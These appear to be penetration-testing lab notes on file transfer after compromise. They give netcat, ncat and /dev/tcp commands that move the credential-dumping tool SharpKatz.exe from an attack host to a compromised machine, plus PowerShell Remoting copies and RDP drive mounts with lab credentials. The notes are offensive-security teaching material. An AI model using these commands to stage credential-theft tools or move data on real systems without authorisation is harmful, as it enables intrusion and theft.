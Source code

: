 # Miscellaneous File Transfer Methods
## Netcat
**NetCat - Compromised Machine - Listening on Port 8000**
```
$ nc -l -p 8000 > SharpKatz.exe
```
**Netcat - Attack Host - Sending File to Compromised machine**
```
$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
**Ncat - Attack Host - Sending File to Compromised machine**
```
$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
**Attack Host - Sending File as Input to Netcat**
```
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
**Compromised Machine Connect to Netcat to Receive the File**
```
$ nc 192.168.49.128 443 > SharpKatz.exe
```
**Attack Host - Sending File as Input to Ncat**
```
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
**Compromised Machine Connect to Ncat to Receive the File**
```
$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**
```
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
## Powershell Session File Transfer
PowerShell Remoting allows us to execute scripts or commands on a remote computer using PowerShell sessions. 

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the Remote Management Users group, or have explicit permissions for PowerShell Remoting in the session configuration.
**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**
```
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01

PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```
**Create a PowerShell Remoting Session to DATABASE01**
```
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```
**Copy samplefile.txt from our Localhost to the DATABASE01 Session**
```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
**Copy DATABASE.txt from DATABASE01 Session to our Localhost**
```
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
## RDP
**Mounting a Linux Folder Using rdesktop**
```
$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
**Mounting a Linux Folder Using xfreerdp**
```
$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

Alternatively, from Windows, the native `mstsc.exe` remote desktop client can be used.